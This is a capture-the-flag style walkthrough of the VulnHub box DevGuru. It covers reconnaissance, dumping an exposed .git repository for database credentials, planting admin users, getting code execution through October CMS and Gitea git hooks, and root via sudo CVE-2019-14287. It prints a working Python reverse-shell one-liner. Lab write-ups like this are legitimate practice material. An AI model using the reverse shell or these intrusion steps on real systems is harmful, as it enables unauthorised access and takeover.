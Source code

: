 # VulnHub-DevGuru

## Netdiscover

Run `netdiscover -i wlan0` or `eth0`

<img src="https://imgur.com/U8GskLr.png"/> 

Alternatively this box gives us the ip address we need to scan for nmap , however it's not common that vulhub boxes have a banner to give local ip address when they bootup.

<img src="https://imgur.com/ruFBezk.png"/>

## NMAP

Now that we have the IP address of our target let's run nmap scan on it

```
Nmap scan report for 192.168.1.138
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:46:e8:2b:01:ff:57:58:7a:5f:25:a4:d6:f2:89:8e (RSA)
|   256 08:79:93:9c:e3:b4:a4:be:80:ad:61:9d:d3:88:d2:84 (ECDSA)
|_  256 9c:f9:88:d4:33:77:06:4e:d9:7c:39:17:3e:07:9c:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: DevGuru
| http-git: 
|   192.168.1.138:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: first commit 
|     Remotes:
|       http://devguru.local:8585/frank/devguru-website.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corp - DevGuru
MAC Address: 08:00:27:C2:2E:66 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

So from the nmap scan we have 2 ports http and ssh but we see something intersting which `.git/` also we see a domain name `devguru.local`. Add the domain to `/etc/hosts`

<img src="https://imgur.com/4cGfA58.png"/>

<img src="https://imgur.com/Rt5p5UR.png"/>

On going to `register` tab we won't be able to register any user also we haven't found any creds.

<img src="https://imgur.com/oHgxDf5.png"/>

On port 80 we can also see a home page with clicking on the tabs pretty much doesn't do anything

<img src="https://imgur.com/UdhpGQU.png"/>
So I tried ruuning gobuster and found something interesting

<img src="https://imgur.com/AxkMwmb.png"/>

<img src="https://imgur.com/XMYfJ1y.png"/>

But it's the same thing we need credentials.

I did try to find some exploits for `gitea` and `october` but end up failing so the next thing we can do is try to dump the git repository that we saw from the nmap scan.To dump the git repository what you need is called GitTools , really an awesome tool

`https://github.com/internetwache/GitTools`

<img src="https://imgur.com/Jf8YhjE.png"/>

This script is going to download whatever it can from the repository.

<img src="https://imgur.com/X24yjss.png"/>

When it finishes it will look something like this

<img src="https://imgur.com/myHKpaI.png"/>

<img src="https://imgur.com/XNe3OSF.png"/>

Going through `objects` folder you'll find bunch of directories and you won't understand how would you read it so another script of extracting useful files from `.git` is called `Extractor` which comes with `GitTools`

<img src="https://imgur.com/nn9KMFV.png"/>

As you can see it will extract all the files we'll need so you definitely want to have it in your arsenal when it comes to dealing with `.git` on the webserver

<img src="https://imgur.com/79tIOWm.png"/>

<img src="https://imgur.com/rkuLmuZ.png"/>

Now two files that you want to look at ,first `adminer.php` which is database management tool means there's a databse which is connected to web application also in `config` folder you'll find `database.php` in which you can get credentials for logging into the database 

<img src="https://imgur.com/RpcLZ62.png"/>

<img src="https://imgur.com/FBGzWYp.png"/>

<img src="https://imgur.com/E2fuSWE.png"/>

Now we are logged in and we can pretty much do everything with the database so let's try creating a new user in the database or we can just clone the `frank` user but here we have to specify the password in that hash which is `bcrypt` seeing identifying it as it is starting from `$2$` 

Goto `cyberchef` or any other website from which you can generate a text to bcrypt hash and add it in the password field

<img src="https://imgur.com/xEAStaA.png"/> 

<img src="https://imgur.com/nJG03cp.png"/>

<img src="https://imgur.com/fuF2FRk.png"/>

Now we have added a new user and we should be able to login to the page we found through `gobuster`

<img src="https://imgur.com/FC2sUxX.png"/>

In order to get a shell from the october cms there something we can do is run php code inside html page but it's a little different.

Through goolging around a little I was able to find a forum where people asked about this thing and got several answers but the code that worked for me was

<img src="https://imgur.com/xlofAzs.png"/>

So let's try testing if this actually works

<img src="https://imgur.com/weWym8c.png"/>

<img src="https://imgur.com/qaJC62U.png"/>

This works so now we just have to setup a GET parameter in the code and run system commands

<img src="https://imgur.com/wbN92tc.png"/>

<img src="https://imgur.com/mTTcV5c.png"/>

We are almost just there (not really it is a real pain), just need a reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
This one worked for me

<img src="https://imgur.com/ZKCX50B.png"/>

Once we got in the things we could is to just look for any cronjob ruuning or to see if we can run anything as sudo

<img src="https://imgur.com/uVz8EHt.png"/>

But got no luck, now only options is to run `linpeas` and hope it finds something

<img src="https://imgur.com/e2HBws6.png"/>

<img src="https://imgur.com/F27JlAq.png"/>

Now it found something interesting which is a backup configuration file of that `gitea`. From that file we find creds for `gitea`'s database

<img src="https://imgur.com/E1Ix2Lu.png"/>


<img src="https://imgur.com/SKKhMFA.png"/>

We now have access to gitea database but here we have to add a new user in order to login to `gitea`

<img src="https://imgur.com/Fevo7ER.png"/>

<img src="https://imgur.com/lggp0ti.png"/>

It may look that it's only allowing pbkdf2 hashes but bcrypt also works

<img src="https://imgur.com/CuL90QX.png"/>

Now to get a reverse shell there is actullay an exploit for it 

`https://security.szurek.pl/en/gitea-1-4-0-unauthenticated-rce/`

By going through it explained we can get `remote code execution` if we have an administrator account on `gitea` because we need to have `githooks` to be enabled which is just a script that runs automatically whenever an event occurs on github repository. So what we are going to do is 

1. Create a repository (doesn't matter if it's empty)

2. Go to settings of the repository , githooks , click on update then add a reverse shell

3. Clone the repository

4. Add a file to the repository

5. Commit

6. Push

<img src="https://imgur.com/q8vnYmY.png"/>

<img src="https://imgur.com/QWfOLok.png"/>

<img src="https://imgur.com/SAlRS1q.png"/>

<img src="https://imgur.com/vlcqvrH.png"/>

<img src="https://imgur.com/saEKeue.png"/>

<img src="https://imgur.com/CFuHZLz.png"/>

And now if we go to our netcat listener , we will have a shell as `frank`

<img src="https://imgur.com/yNiz4YN.png"/>

<img src="https://imgur.com/gfTmCks.png"/>

<img src="https://imgur.com/4MBiuur.png"/>

Going throguh man pages of `sudoers` it says that we can run this can be ran as any user but not as `root`.

<img src="https://imgur.com/kbZNTkr.png"/>

Now a vulnerability exists in this scenario when a user is allowed to execute command as other users but not as root so when specifiy a user with `-u` and user id with `-1` it's going to consider is a `root` with id `0`

`https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability`

<img src="https://imgur.com/9ihFY4q.png"/>

So this was a really an intersting box that we had to dump the git repository then look for important files after that got our intial foothold as `www-data` through that looked for some configuration files ,edit database ,add repository then pushed our changes into it did learned a lot from this ,it was my first vulnhub machine that I rooted !!!
